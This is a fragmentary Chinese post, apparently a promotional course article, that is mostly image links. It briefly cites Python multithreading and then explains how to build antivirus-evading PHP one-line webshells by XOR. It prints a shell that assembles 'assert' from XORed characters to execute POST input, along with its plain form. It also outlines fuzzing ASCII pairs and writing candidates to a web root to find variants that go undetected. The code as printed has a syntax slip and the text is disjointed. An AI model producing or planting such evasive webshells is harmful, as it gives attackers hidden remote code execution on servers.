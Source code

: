 （2）python 多线程 用法详解 

- 
- 
- 

```
https://blog.csdn.net/briblue/article/details/85101144 
https://www.cnblogs.com/j6-2/p/4645490.html
```

3. 实现代码

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZwmCW1Anoey0dXia3bZcrqF1ZnrJS5eNKCiabsJ1w1ahy68gYTmGy84yw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZIIibywiaFka99epCNl7RpHRl6AOK53L6M2cpVSVJ5MCicp87cPy1Sby0Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZ0ibL1NwFmh1guIwOoZzZ14fHvlldUBjEibNOA8ibxBf17hBOd4eW8VWhA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



案例3

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZZVDaqc53VRJQyc4CgJu2rCouDXzU9okUpS8NHPFPWYIbup9XUWnzcA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



1. php 异或 

参考 https://blog.csdn.net/qq_41617034/article/details/104441032 

资料 

(1)免杀异或异或一句话木马 <?php $a=(“!”^”@”).’ssert’;$a($_POST[x];?> 其原形为<?php assert($_POST[x]);?> 

原理：!的 ASCII 为 33；@的 ASCII 为 64，二者的值转换成二进制，并且进行异或运算，得出 的二进制结果再转换成 ASCII，该值为 97，查询为 a 通过 fuzz 来生成免杀木马 

思路：不看二进制的异或计算，列出所有 ASCII 值<127 的的组合（127x127），将这些组合 放入一句话木马中，然后测试该 payload 是否成功，写入到网站根目录；发起 requests 请求， 看返回内容，能够执行的文件返回的内容和不能执行的文件返回的内容是不一样的

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZ4y52eYaCFQvSa0wt7aoLCVAMnkMZSKgwet2jzjMsp2y4Dd7ypU1tGg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZdeWXC2sPCxOdDM7h0ZhteDgHmSaicIOcC0bYYyLs1ZIjYcVLVdgiaqPw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZFx2TlS2wBxic74yNruFMY9eAdlyyg13W8QlTLVSThm8rP2Lnoo00JJw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZlI4XibbfQvrN4lZo4OAX8tg1AicACdovPx9jyeGdjaAcMToSvMjmUu2A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



4. 更多思路 <?php assert($_POST[x]);?>这种一句话的内容都可以通过异或去生成，或者以其它免杀方式 结合异或，代码变异



课程大纲 

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9nQjFnFs181AmQTEkpV0tZHwBm6OFfjTFY3LNj0WkhExxT8qEOIiaZhCSalq2uQIOyWqhBulBcFXw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)


